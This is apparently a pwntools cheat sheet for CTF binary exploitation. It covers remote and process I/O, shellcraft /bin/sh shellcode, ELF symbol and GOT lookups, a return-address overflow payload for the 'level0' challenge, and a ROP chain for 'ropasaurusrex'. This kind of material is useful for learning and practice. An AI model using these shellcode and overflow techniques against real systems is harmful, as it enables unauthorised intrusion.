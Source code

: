 [TOC]

# pwntool
	from pwn import *
	asm("XXX")
	sh=process("./$name")
	sh=remote(IP,port)
	sh.close()
	sh.send($string)
	sh.sendline($string)
	sh.recv(numb=$num,timeout=$num)
	sh.recvline()
	sh.recvuntil($string,drop=false)
	sh.recvall()
	sh.recvrepeat()
	sh.interaactive() 
	
	>>> context.arch      = 'i386'
	>>> context.os        = 'linux'
	>>> context.endian    = 'little'
	>>> context.word_size = 32
	
	
	>>> print disasm('6a0258cd80ebf9'.decode('hex'))
	   0:   6a 02                   push   0x2
	   2:   58                      pop    eax
	   3:   cd 80                   int    0x80
	   5:   eb f9                   jmp    0x0
	
	>>> print shellcraft.i386.nop().strip('\n')
	    nop
	>>> print shellcraft.i386.linux.sh()
	    /* push '/bin///sh\x00' */
	    push 0x68
	    push 0x732f2f2f
	    push 0x6e69622f
	
	
	from pwn import *
	context(os='linux',arch='amd64')
	shellcode = asm(shellcraft.sh())
	or
	from pwn import *
	shellcode = asm(shellcraft.amd64.linux.sh())
	
	
	>>> e = ELF('/bin/cat')
	>>> print hex(e.address)  # 文件装载的基地址
	0x400000
	>>> print hex(e.symbols['write']) # 函数地址
	0x401680
	>>> print hex(e.got['write']) # GOT表的地址
	0x60b070
	>>> print hex(e.plt['write']) # PLT的地址
	0x401680
	>>> print hex(e.search('/bin/sh').next())# 字符串/bin/sh的地址
	
	
	from pwn import *
	elf = ELF('./level0')
	sys_addr = elf.symbols['system']
	payload = 'a' * (0x80 + 0x8) + p64(sys_addr)
	
	
	elf = ELF('ropasaurusrex')
	rop = ROP(elf)
	rop.read(0, elf.bss(0x80))
	rop.dump()
	# ['0x0000:        0x80482fc (read)',
	#  '0x0004:       0xdeadbeef',
	#  '0x0008:              0x0',
	#  '0x000c:        0x80496a8']
	str(rop)
	# '\xfc\x82\x04\x08\xef\xbe\xad\xde\x00\x00\x00\x00\xa8\x96\x04\x08'
	
